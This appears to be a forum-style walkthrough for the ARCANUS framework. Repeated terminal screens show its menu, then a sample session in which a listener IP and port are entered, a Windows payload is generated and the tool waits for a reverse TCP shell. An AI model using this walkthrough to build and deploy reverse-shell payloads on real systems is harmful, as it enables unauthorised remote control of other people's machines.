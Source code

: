 
                  Terminal

root@Gihad:~/Desktop/ARCANUS# ./ARCANUS

           _______  _______  _______  _______  _                 _______ 
          (  ___  )(  ____ )(  ____ \(  ___  )( (    /||\     /|(  ____ \
          | (   ) || (    )|| (    \/| (   ) ||  \  ( || )   ( || (    \/
          | (___) || (____)|| |      | (___) ||   \ | || |   | || (_____ 
          |  ___  ||     __)| |      |  ___  || (\ \) || |   | |(_____  )
          | (   ) || (\ (   | |      | (   ) || | \   || |   | |      ) |
          | )   ( || ) \ \__| (____/\| )   ( || )  \  || (___) |/\____) |
          |/     \||/   \__/(_______/|/     \||/    )_)(_______)\_______)


+ -- --=[      ARCANUS FRAMEWORK                  ]
+ -- --=[ Version: 1.5.6                          ]
+ -- --=[ Support: arcanusframework@gmail.com     ]
+ -- --=[               Ege Balcı                 ]

 [1] START LISTENING

 [2] GENERATE WINDOWS PAYLOAD                   (4.5 Mb)

 [3] GENERATE LINUX PAYLOAD                     (3.6 Mb)

 [4] GENERATE STAGER WINDOWS PAYLOAD            (2.0 Mb)

 [5] GENERATE STAGER LINUX PAYLOAD              (2.0 Mb)

 [6] UPDATE


>>

After opening the tool Choose payload what you want (For example)

           _______  _______  _______  _______  _                 _______ 
          (  ___  )(  ____ )(  ____ \(  ___  )( (    /||\     /|(  ____ \
          | (   ) || (    )|| (    \/| (   ) ||  \  ( || )   ( || (    \/
          | (___) || (____)|| |      | (___) ||   \ | || |   | || (_____ 
          |  ___  ||     __)| |      |  ___  || (\ \) || |   | |(_____  )
          | (   ) || (\ (   | |      | (   ) || | \   || |   | |      ) |
          | )   ( || ) \ \__| (____/\| )   ( || )  \  || (___) |/\____) |
          |/     \||/   \__/(_______/|/     \||/    )_)(_______)\_______)


+ -- --=[      ARCANUS FRAMEWORK                  ]
+ -- --=[ Version: 1.5.6                          ]
+ -- --=[ Support: arcanusframework@gmail.com     ]
+ -- --=[               Ege Balcı                 ]

 [1] START LISTENING

 [2] GENERATE WINDOWS PAYLOAD                   (4.5 Mb)

 [3] GENERATE LINUX PAYLOAD                     (3.6 Mb)

 [4] GENERATE STAGER WINDOWS PAYLOAD            (2.0 Mb)

 [5] GENERATE STAGER LINUX PAYLOAD              (2.0 Mb)

 [6] UPDATE


>>2

           _______  _______  _______  _______  _                 _______ 
          (  ___  )(  ____ )(  ____ \(  ___  )( (    /||\     /|(  ____ \
          | (   ) || (    )|| (    \/| (   ) ||  \  ( || )   ( || (    \/
          | (___) || (____)|| |      | (___) ||   \ | || |   | || (_____ 
          |  ___  ||     __)| |      |  ___  || (\ \) || |   | |(_____  )
          | (   ) || (\ (   | |      | (   ) || | \   || |   | |      ) |
          | )   ( || ) \ \__| (____/\| )   ( || )  \  || (___) |/\____) |
          |/     \||/   \__/(_______/|/     \||/    )_)(_______)\_______)


+ -- --=[      ARCANUS FRAMEWORK                  ]
+ -- --=[ Version: 1.5.6                          ]
+ -- --=[ Support: arcanusframework@gmail.com     ]
+ -- --=[               Ege Balcı                 ]

Enter Listening Ip: here Enter ip External or internal this is your opinion you  Not me
 
           _______  _______  _______  _______  _                 _______ 
          (  ___  )(  ____ )(  ____ \(  ___  )( (    /||\     /|(  ____ \
          | (   ) || (    )|| (    \/| (   ) ||  \  ( || )   ( || (    \/
          | (___) || (____)|| |      | (___) ||   \ | || |   | || (_____ 
          |  ___  ||     __)| |      |  ___  || (\ \) || |   | |(_____  )
          | (   ) || (\ (   | |      | (   ) || | \   || |   | |      ) |
          | )   ( || ) \ \__| (____/\| )   ( || )  \  || (___) |/\____) |
          |/     \||/   \__/(_______/|/     \||/    )_)(_______)\_______)


+ -- --=[      ARCANUS FRAMEWORK                  ]
+ -- --=[ Version: 1.5.6                          ]
+ -- --=[ Support: arcanusframework@gmail.com     ]
+ -- --=[               Ege Balcı                 ]

Enter Listening Ip: 192.168.15.132

Enter Listening Port:  here Enter port 4444 or 443 this is your opinion you  Not me

           _______  _______  _______  _______  _                 _______ 
          (  ___  )(  ____ )(  ____ \(  ___  )( (    /||\     /|(  ____ \
          | (   ) || (    )|| (    \/| (   ) ||  \  ( || )   ( || (    \/
          | (___) || (____)|| |      | (___) ||   \ | || |   | || (_____ 
          |  ___  ||     __)| |      |  ___  || (\ \) || |   | |(_____  )
          | (   ) || (\ (   | |      | (   ) || | \   || |   | |      ) |
          | )   ( || ) \ \__| (____/\| )   ( || )  \  || (___) |/\____) |
          |/     \||/   \__/(_______/|/     \||/    )_)(_______)\_______)


+ -- --=[      ARCANUS FRAMEWORK                  ]
+ -- --=[ Version: 1.5.6                          ]
+ -- --=[ Support: arcanusframework@gmail.com     ]
+ -- --=[               Ege Balcı                 ]

[+] Payload generated at /root/Desktop/ARCANUS

[*] Port:4444

[*] Listening For Reverse TCP Shell...


And then Go Folder tool There it falls payload Your 
 /root/Desktop/ARCANUS <<<<< 




